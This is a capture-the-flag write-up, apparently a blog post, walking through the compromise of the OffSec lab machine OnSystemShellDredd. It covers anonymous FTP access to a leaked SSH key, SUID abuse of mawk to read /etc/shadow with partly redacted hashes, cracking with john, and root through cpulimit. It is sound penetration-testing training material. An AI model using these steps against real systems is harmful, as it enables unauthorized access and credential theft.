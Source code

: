 ```yaml
---
title: "Proving grounds Play: OnSystemShellDredd"
layout: post
date: 2023-07-07 22:10
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Walkthrough on Youtube
[![youtube](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/youtube.png)](https://youtu.be/UPYHCc7PdGQ)

## NMAP
```bash
naveenj@hackerspace|01:02 AM|~/Pg-Play$ nmap -p- --open -sV -sT -sC 192.168.191.130 -v -oN nmap                                                                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 01:02 EDT                                                
PORT      STATE SERVICE VERSION                                                              
21/tcp    open  ftp     vsftpd 3.0.3                                                         
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                       
| ftp-syst:                                                                                  
|   STAT:                                                                                    
| FTP server status:                                                                         
|      Connected to ::ffff:192.168.45.250                                                    
|      Logged in as ftp                                                                      
|      TYPE: ASCII                                                                           
|      No session bandwidth limit                                                            
|      Session timeout in seconds is 300                                                     
|      Control connection is plain text                                                      
|      Data connections will be plain text                                                   
|      At session startup, client count was 4                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                   
|_End of status                                                                              
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                       
| ssh-hostkey:                                                                               
|   2048 592d210c2faf9d5a7b3ea427aa378908 (RSA)                                              
|   256 5926da443b97d230b19b9b02748b8758 (ECDSA)                                             
|_  256 8ead104fe33e652840cb5bbf1d247f17 (ED25519)                                           
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                               
```

## FTP login
```bash
naveenj@hackerspace|01:07 AM|~$ ftp 192.168.191.130 21                                       
Connected to 192.168.191.130.                                                                
220 (vsFTPd 3.0.3)                                                                           
Name (192.168.191.130:naveenj): anonymous                                                    
331 Please specify the password.                                                             
Password:                                                                                    
230 Login successful.                                                                        
Remote system type is UNIX.                                                                  
Using binary mode to transfer files.                                                         
ftp>
```

### List directory
```sh
ftp> ls -lsa                                                                                 
229 Entering Extended Passive Mode (|||13654|)                                               
150 Here comes the directory listing.                                                        
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .                                    
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..                                   
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah                              
226 Directory send OK.                                                                       
ftp>
```

## Changing directory
```sh
ftp> cd .hannah                                                                              
250 Directory successfully changed.                                                          
ftp> ls -lsa                                                                                 
229 Entering Extended Passive Mode (|||8389|)                                                
150 Here comes the directory listing.                                                        
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .                                    
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..                                   
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa                               
226 Directory send OK.                                                                       
ftp>
```

## Get id_rsa key for user hannah
```sh
ftp> get id_rsa                                                                              
local: id_rsa remote: id_rsa                                                                 
229 Entering Extended Passive Mode (|||17682|)                                               
150 Opening BINARY mode data connection for id_rsa (1823 bytes).                             
100% |************************************************|  1823       11.66 MiB/s    00:00 ETA 
226 Transfer complete.                                                                       
1823 bytes received in 00:00 (8.97 KiB/s)                                                    
ftp>
```

## Login to hannah user using ssh
```sh
naveenj@hackerspace|01:12 AM|~/Pg-Play/OnSystemShellDredd$ ssh -i files/id_rsa hannah@192.168.191.130                                                                                     
ssh: connect to host 192.168.191.130 port 22: Connection refused
```

Apply required permission such as `chmod 600` to the id_rsa file. Still the connection will be refused. As we have one more ssh service running on PORT 61000, we can try to connect there.

```sh
naveenj@hackerspace|01:15 AM|~/Pg-Play/OnSystemShellDredd$ ssh -i files/id_rsa hannah@192.168.191.130 -p 61000                                                                           
                                                                 
hannah@ShellDredd:~$ 
```
Whooo! we are logged in to hannah user now.

### Obtaining Flag
```sh
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ cat user.txt
Your flag is in another file...
hannah@ShellDredd:~$ cat local.txt
5b571██████████████████████████
hannah@ShellDredd:~$ 
```

# Privilege Escalation
Get SUIDs and GUIDs

### SUIDs
```sh
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk #--strange binary
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit #--strange binary
/usr/bin/mount
/usr/bin/passwd
```

### GUIDs
```sh
hannah@ShellDredd:~$ find / -perm -g=s -type f 2>/dev/null
/usr/sbin/unix_chkpwd
/usr/bin/wall
/usr/bin/mawk
/usr/bin/ssh-agent
/usr/bin/crontab
/usr/bin/chage
/usr/bin/expiry
/usr/bin/bsd-write
/usr/bin/cpulimit
/usr/bin/dotlockfile
```

Search for the exploit in GFTObins for the strange binary `mawk`

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/suid_mawk.png)

The exploit worked and we are able to view the shadow file which contains hash of the users passwords.

```sh
hannah@ShellDredd:~$ mawk '//' "/etc/shadow" | grep -iE 'root|hannah'
root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFw█████████████████████████████████████████████████████████:18656:0:99999:7:::
hannah:$6$y8GL381zxgwD7gRr$AhERcqNym1qlATj9Rl6R██████████████████████████████████████████████████████.:18656:0:99999:7:::
```

Let's start cracking the hashes using john or crackstation.

Copy both the passwd and shadow files to the local machine to unshadow.

`unshadow passwd shadow > crackme` run the command to unshadow the file.

### Running john
```sh
naveenj@hackerspace|01:56 AM|~/Pg-Play/OnSystemShellDredd/files$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt                                                                 
Using default input encoding: UTF-8                                                          
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])                                                                                       
Cost 1 (iteration count) is 5000 for all loaded hashes                                       
Will run 4 OpenMP threads                                                                    
Press 'q' or Ctrl-C to abort, almost any other key for status
```

After a while there is no progress, so lets check another way.

Let's check the `/usr/bin/cpulimit` binary in GTFObins for exploits.

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/suid_cpulimit.png)

Running the exploit command.

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/root.png)

Obtained root and proof flag.

*Happy Hacking!*

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
